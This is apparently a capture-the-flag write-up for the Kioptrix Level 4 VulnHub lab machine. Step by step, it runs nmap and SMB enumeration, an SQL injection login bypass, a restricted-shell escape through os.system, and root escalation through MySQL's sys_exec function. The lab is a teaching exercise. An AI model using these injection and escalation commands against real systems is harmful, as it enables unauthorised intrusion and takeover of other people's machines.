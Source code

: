 ```yaml
---
layout: post
title: "Kioptrix Level 4"
date: 2022-03-05
categories: [VulnHub, Easy-Vulnhub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix-level-4.png

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/156876091-8a7d29f5-477a-4f01-ac56-c3c92b95e31d.png)

Okay, so the IP address of the box is 10.0.2.71.

Now, let's start port scanning with nmap,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876096-599dedca-a8c7-40af-8bdb-d4a171e8f104.png)

we can see that there are 3 ports open 22(SSH), 80(http), 139,445(SMB).

Okay, we got SMB service running on this machine, so let's enumerate all users with nmap's smb-enum-users script,

```bash
sudo nmap -sC --script=smb-enum-users 10.0.2.71 -oN nmap_smb-users
```

![image](https://user-images.githubusercontent.com/67465230/156876105-12fc31b4-ae7e-4c04-b4d1-fe65fa3f9444.png)

we got John User.

Let's check what technologies are running on website,

```bash
whatweb http://10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876115-e37ff5a5-a13f-4647-ac5b-f64df1e05eca.png)

It has password field that means there's a login page as well. Great!!

Let's visit http://10.0.2.71,

![image](https://user-images.githubusercontent.com/67465230/156876126-04ccfa62-f079-45cb-b556-d64cf4c12676.png)

we got login page. Since this box has login mechanism then chances are MySQL service might be running as well ( hopefully it does :) ) and this box is vulnerable to SQLi. So let's try to login using structured query,

providing `username=john and password=1' or 1=1#`,

![image](https://user-images.githubusercontent.com/67465230/156876135-0c585504-8c85-44dc-917b-f28587240919.png)

now press login button,

we got in as john user and there we got login creds (SSH ? let's see! ),

![image](https://user-images.githubusercontent.com/67465230/156876148-0c85aacf-c153-4603-b71c-d03d9b0a62eb.png)

Let's ssh using these creds,

```bash
ssh john@10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876153-b9600342-7f69-4d57-9f0c-df0cb3ebde6d.png)

we got shell!!

let's Identify who we are,

```bash
whoami
id
```

![image](https://user-images.githubusercontent.com/67465230/156876160-1bda5222-e187-4caa-a7a0-5e2a672d77af.png)

Huh?? command won't work? let's try other commands.

try to change directory with cd command,

![image](https://user-images.githubusercontent.com/67465230/156876165-2bd7ed92-93d3-4589-8126-3f791f85e2f7.png)

We got warning and looks like if we type one more command then system will throw us out!! It throws me like trash for few times XD. But why? maybe we have under privilege shell. Let's see what commands we can run,

```bash
help
```

![image](https://user-images.githubusercontent.com/67465230/156876199-8fb87519-84f6-4845-a96d-461b777fd4d4.png)

seems like aren't much commands we can run but there echo command seems great friend to us right now. Let's use it to gain a fully functional shell,

```bash
echo os.system("/bin/bash")
```

![image](https://user-images.githubusercontent.com/67465230/156876203-e6260649-e468-4064-8479-f57a995dfc07.png)

we can now identify who we are with whoami command.

Now, that we got access as John user, now we'll move towards Privilege Escalation. For that, do ENUMERATION!!

After some enumeration, I found a file named checklogin.php in /var/www directory. let's view the content of file,

```bash
cat checklogin.php
```

![image](https://user-images.githubusercontent.com/67465230/156876215-fa0ea7f2-655b-401c-947b-59e43e2c57e8.png)

As you can see that, there is no password, so you can easily bypass MYSQL with UDF, [command-execution-with-mysql-udf](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), means we can escalate our privileges to root!

But before to proceed, let's check whether MySQL service is running with root privileges or not by typing the following command:

```bash
ls -la /user/lib/lib_mysqludf_sys.so
```

![image](https://user-images.githubusercontent.com/67465230/156876228-4ac8649b-a315-47e1-b97b-c6bc4d65525b.png)

Yes, mysql service is running so now, let's connect to mysql database with mysql client.

```bash
mysql -h localhost -u root -p
```

![image](https://user-images.githubusercontent.com/67465230/156876238-74c32a12-eb2d-4807-9e71-df25fdbf6332.png)

show databases; will give you a list of all databases.

Let's run a usermod command with sys_exec to give john admin privileges,

```bash
select sys_exec("usermod -a -G admin john"); exit
```

![image](https://user-images.githubusercontent.com/67465230/156876245-1e4e112f-789c-42d5-bd3c-cf23bddd7c1d.png)

This will add john to admin group and we'll take exit.

Now, let's switch to superuser,

```bash
sudo su
```

![image](https://user-images.githubusercontent.com/67465230/156876266-6021fbd0-bcb8-4407-a746-52f3e1b2b8bd.png)

by providing the password we found after exploiting login mechanism of machine using SQLi, we got system access and we confirmed it using id command.

navigating to /root directory and establish all directory content with ls,

![image](https://user-images.githubusercontent.com/67465230/156876271-4e9bef95-5c01-4e14-82d1-f4c1ea3dbcbb.png)

we got root flag. Let's view the content of it,

```bash
cat congrats.txt
```

![image](https://user-images.githubusercontent.com/67465230/156876296-f852ebbb-0363-4cf0-9061-725ff84e4dd1.png)

We've successfully rooted this machine.
